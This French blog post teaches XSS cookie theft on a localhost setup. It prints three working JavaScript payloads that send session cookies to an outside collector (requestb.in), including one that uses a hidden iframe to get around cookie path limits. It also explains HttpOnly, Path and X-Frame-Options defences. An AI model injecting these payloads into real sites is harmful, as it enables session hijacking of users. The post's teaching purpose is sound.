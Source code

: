 ```yaml
---
layout: post
title:  "XSS, CORS, CSRF - XSS et vol de cookies - Partie 2"
date:   2016-08-15
categories: web
---
```

XSS  et vol de cookies par la pratique.
----------

**Vous reprendrez bien un cookie ?**
  
Dans le premier volet de notre saga, nous traitions des attaques XSS et des moyens de s’en prémunir. Ces vulnérabilités peuvent être utilisées pour voler vos informations de session ou vous rediriger vers un site frauduleux. Vous vous dîtes sûrement : "ok coco en théorie c’est bien sympa tout ça, mais en quoi consiste le vol d’une session, quelles informations sont envoyées et où part la requête ?".  
  
Imaginons la configuration suivante :
  
![Configuration de l'attaque]({{ site.url }}/public/images/xss-cors-csrf/cors_1.png)
  
Un internaute requête le site *www.site-a.com* qui est un site de confiance mais vulnérable au XSS. Un pirate pourra injecter le code suivant :  

```html
Juste un petit coucou !
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(document.cookie));
	xhr.send();
</script>
```
  
Pour notre test nous partirons sur le postulat que *www.site-a.com* est notre *localhost*, et que *www.site-b.com* (le site du pirate qui récupère les infos) correspond au site *http://requestb.in*.  

> Le site **http://requestb.in** est très utile pour analyser les requêtes http.  

Lorsque le script est exécuté, ce dernier accède au **document.cookie** qui correspond au cookie du document HTML courant contenant l’id de session. Ce dernier peut ressembler à ceci :  

![Exemple cookie 1]({{ site.url }}/public/images/xss-cors-csrf/cors_2.png)
Ou bien ceci :  

![Exemple cookie 2]({{ site.url }}/public/images/xss-cors-csrf/cors_3.png)  
Nous reviendrons sur ce dernier cas par la suite car ce dernier est un cookie sécurisé. Je vous recommande sous Chrome d’installer l’extension [Cookie Inspector]( https://chrome.google.com/webstore/detail/cookie-inspector/jgbbilmfbammlbbhmmgaagdkbkepnijn).  
  
Pour nos tests voici la configuration mise en place :  

 - Une page *http://localhost/secu/cookie.php*:  

```php
<?php
	setcookie('PHPSESSID_secure', 'jm5mah0a9uuf4g344096nled73', 0, '/secu', $_SERVER['SERVER_NAME'], isset($_SERVER["HTTPS"]), true);
	setcookie('PHPSESSID_unsecured', 'jm5mah0a9uuf4g344096nled73', 0, '/', $_SERVER['SERVER_NAME'], false, false);
?>
```  
  
Les cookies générés (deux cookies à des fins de test):  
  
![Configuration cookies test]({{ site.url }}/public/images/xss-cors-csrf/cors_4.png)  
  
Les champs [Domain, Path, HTTP et Secure](https://tools.ietf.org/html/rfc6265) sont les champs qui permettront de sécuriser notre cookie:  

**domain** : le domaine racine concerné par le cookie  
**path** : détermine pour quelle arborescence à partir du domaine racine le cookie sera accessible  
**session.cookie_httponly** : empêche un cookie d’être accessible via javascript (XSS ;))  
**session.cookie_secure** : accède au cookie uniquement sur des connexions HTTPS (empêche les informations de transiter en clair – voir également la solution HSTS (lien vers article précédent))    
  
 - Une page vulnérable *http://localhost/xss.php* qui contient le payload vu précédemment.  
  
Ce cookie est envoyé via une requête **XMLHttpRequest** sur *requestb.in*. Regardons quelles informations sont réceptionnées :  
  
![Requestb.in get data]({{ site.url }}/public/images/xss-cors-csrf/cors_5.png) 
  
Nous récupérons bien l’id de session de notre cookie non sécurisé uniquement. Ceci a été possible car :  

  -	Faille **XSS** ayant permis l’injection de javascript
  -	Cookie avec le flag **HttpOnly** à false
  -	Requête **Cross-Origin** simple sur le site du pirate pour récupération des informations
  -	Cookie avec un **Path** permissif (toute l’arborescence du site)  
  
Il convient de définir un path pour lequel le cookie doit être actif, dans notre exemple un espace sécurisé */secu* qui sollicite le cookie session. Ainsi notre page publique vulnérable *xss.php* à la racine */* n’aurait pas été en mesure d’accéder au cookie. Modifions le path de notre cookie unsecured :  
  
```php
setcookie('PHPSESSID_unsecured', 'jm5mah0a9uuf4g344096nled73', 0, '/secu', $_SERVER['SERVER_NAME'], false, false);
```
  
Et si maintenant nous tentions dans notre payload (depuis la page *http://localhost/xss.php*) d’accéder à la page *http://localhost/secu/cookie.php*, de lui voler son cookie et de nous l’envoyer :  
  
```html
<script>    
	var xhr = new XMLHttpRequest();
	xhr.onreadystatechange = function () {

		if (xhr.readyState == 4) {
			var cookie = xhr.getResponseHeader('Set-Cookie');   
				
			var xhr2 = new XMLHttpRequest();
			xhr2.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(cookie), false);
			xhr2.send();
		}
	}	
	xhr.open('GET', 'http://localhost/secu/cookie.php');
	xhr.send();		  
</script>
```
  
Malheureusement nous obtenons : <span style="color: red">```Refused to get unsafe header "Set-Cookie"```</span>.  
  
La spécification **XMLHttpRequest** interdit l’accès à certains response headers pour des raisons de sécurité. Les navigateurs chrome / firefox / IE retourneront donc null ([https://fetch.spec.whatwg.org/#forbidden-header-name]( https://fetch.spec.whatwg.org/#forbidden-header-name)).  
  
N’y-a-t-il pas une autre méthode que notre XHR pour charger cookie.php?  
  
```html
<script>    
	var iframe = document.createElement("iframe");
	iframe.src = "http://localhost/secu/cookie.php";
	iframe.hidden = true;            
	var iframeObj = document.body.appendChild(iframe);

	iframeObj.onload = function(){            
		var cookie = iframeObj.contentDocument.cookie;
		var xhr = new XMLHttpRequest();
		xhr.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(cookie));
		xhr.send();
	};          	  
</script>
```  
  
Bingo, même avec un path défini pour ce cookie, nous avons pu le récupérer, et si vous avez bien retenu votre leçon dans le [volet 1](https://phackt.github.io/xss-cors-csrf-partie-1) de notre saga XSS, vous connaissez la contre-mesure à ce payload : le response header **X-Frame-Options** qui interdit qu’une page soit rendue dans un ```<frame>```, ```<iframe>``` ou ```<object>```. Bien évidemment il est préférable en amont de toujours positionner le flag **HttpOnly**. L’accès au cookie par javascript est peu justifiable dans les développements Web.  
  
> *"J’ai activé la console de mon navigateur et je remarque cependant un warning:"*  

<pre class="alert">
XMLHttpRequest cannot load http://requestb.in/w7iy5sw7?cookie=PHPSESSID_unsecured=jm5mah0a9uuf4g344096nled73.  
No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'http://localhost' is therefore not allowed access.
</pre>   
<br /> 

> *"Nous requêtons depuis une ressource du domaine http://localhost:80 vers le domaine http://requestb.in:80, et nous avons ce message, comment se fait-il que la requête ait abouti ?"*  
  
Et bien je vous remercie d’avoir posé la question :). Nous sommes typiquement dans le cas d’une requête Cross Origin. Aujourd'hui AJAX  est omniprésent dans les développements de par l'essor des frameworks client riches comme AngularJS. Je réserve le détail du **Cross-Origin Resource Sharing** pour le dernier volet de cette saga. La connaissance du CORS est essentielle pour les développeurs WEB.  
  
Imaginez que vous surfiez sur un site frauduleux qui puisse soumettre à votre insu des requêtes sur un de vos sites préférés en incluant vos informations de session et poster des formulaires à votre place... C’est à ce niveau qu’il est essentiel de bien configurer le Cross-Origin Resource Sharing et de définir un **token de sécurité** pour éviter les attaques **Cross-Site Request Forgery**. Ceci nous montre bien que les vecteurs d'attaques sont multiples.  
  
A très bientôt et surtout...  
  
```
Keep the positive attitude ;) !
```
<br />
<br />
Références:  
[http://php.net/manual/fr/session.security.php](http://php.net/manual/fr/session.security.php)  
[https://geekflare.com/httponly-secure-cookie-apache/](https://geekflare.com/httponly-secure-cookie-apache/)  
[https://fetch.spec.whatwg.org/](https://fetch.spec.whatwg.org/)